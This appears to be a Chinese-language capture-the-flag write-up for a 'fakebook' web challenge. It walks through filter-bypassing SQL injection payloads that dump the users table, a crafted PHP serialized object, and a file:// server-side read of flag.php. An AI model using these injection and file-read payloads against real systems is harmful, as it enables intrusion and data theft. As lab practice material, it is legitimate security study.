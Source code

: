 ![[Pasted image 20221110205018.png]]

首页

![[Pasted image 20221110205134.png]]

`/login.php`

![[Pasted image 20221110205223.png]]

`/login.php`的账号密码直接`POST`到`/login.ok.php`

![[Pasted image 20221110205532.png]]

认证失败时通过`javascript`返回上一页

![[Pasted image 20221110205740.png]]

`/join.php`

![[Pasted image 20221110205258.png]]

`/join.php`也是直接通过`POST`实现

![[Pasted image 20221110210119.png]]

提示`blog`非法

![[Pasted image 20221110210213.png]]

修改`blog`为`https://www.baidu.com`（百度，惨）
```
username=admin&passwd=123&age=18&blog=https://www.baidu.com
```

提示加入成功
```js
alert('Join success');
location.href='/';
```

返回首页能看到相关信息

![[Pasted image 20221110210541.png]]

`username`这一列还有个超链接，点击能访问`/view.php?no=1`

![[Pasted image 20221110210858.png]]

下面出现了一个没显示全的滚动条，莫非是隐藏了什么惊天大秘密QwQ

审查元素发现这里直接用的`iframe`，而且`src`用的也不是url，而是`base64`编码过后的`html`

![[Pasted image 20221110211327.png]]

改`height`属性为`1000em`，发现解码之后正是刚才`join`时输入的百度的首页，

![[Pasted image 20221110211629.png]]

这里图片加载不出来好像是图片的`src`利用了协议依赖加载的原因（？），从`base64`解码出来的页面不知道是不是把图片路径解析成`file://`协议了

像上面所说的，既然不是直接在`iframe`里提供`https://www.baidu.com`的`url`，而是提供`base64`编码的`html`文件，说明`blog`所指示的页面是在服务端被访问的

抱着好奇试了试套娃
```sql
blog=/view.php?no=3
```
![[Pasted image 20221110214123.png]]

然后服务器就炸了wuwuwu

![[Pasted image 20221110214228.png]]

~~Two thousand years later~~

重启靶机继续迫害(

虽然知道可以利用这一点来让服务器访问任意`url`，但我想不到怎么利用这点QAQ

于是郁闷的改了改`view.php`的`no`参数
```sql
/view.php?no=1
```
![[Pasted image 20221110220444.png]]

靶机重启过，所以`no=1`是不存在的

好像可以注入的样子，有点起色了
```sql
/view.php?no=a
```
![[Pasted image 20221110220630.png]]

好家伙，报了查询错误，可能确实可以`sql`注入
```sql
/view.php?no=1 union select 1#
```
> no hack ~_~

这个no hack就有种此地无银三百两的意味了QwQ

看看什么东西被ban了
```sql
/view.php?no=1 union#
```
> [\*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1)
```sql
/view.php?no=1 select#
```
还是一样的报语法错误
```sql
/view.php?no=union select
```
> no hack ~_~

确定是`"union select"`被匹配了

尝试用`/**/`绕过，然后判断注入点
```sql
/view.php?no=1 union/**/select 1,2,3,4#
```
![[Pasted image 20221110221754.png]]

发现第二列对应`username`
```sql
/view.php?no=1 union/**/select 1,group_concat(schema_name),3,4 from information_schema.schemata#
```
![[Pasted image 20221111092722.png]]

```sql
/view.php?no=1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'#
```
![[Pasted image 20221111093042.png]]

```sql
/view.php?no=1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
```
![[Pasted image 20221111093315.png]]

后来添加了一个用户
```sql
/view.php?no=2 union/**/select 1,group_concat(no),3,4 from fakebook.users#
```
![[Pasted image 20221111095911.png]]

```sql
/view.php?no=2 union/**/select 1,group_concat(username),3,4 from fakebook.users#
```
![[Pasted image 20221111095949.png]]

```sql
/view.php?no=2 union/**/select 1,group_concat(passwd),3,4 from fakebook.users#
```
![[Pasted image 20221111100022.png]]

```sql
/view.php?no=2 union/**/select 1,group_concat(data),3,4 from fakebook.users#
```
![[Pasted image 20221111100108.png]]

这里发现`data`字段是序列化过后的用户信息

![[Pasted image 20221111100358.png]]

结合反序列化的错误提示，推测`view.php`的生成基于`data`的反序列化
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:21:"https://www.baidu.com";}'#
```
![[Pasted image 20221111100740.png]]

猜测`flag`放在`flag.php`里
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```
```html
<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3szNDMyZDYyZS0wMWM3LTQyMzQtOTAxOC1lYzJhMGFmMGQ0NDR9IjsNCmV4aXQoMCk7DQo='>
</div>
```
结果还真猜对了QwQ

![[Pasted image 20221111101944.png]]

#Web #SQL注入 #反序列化 #RFI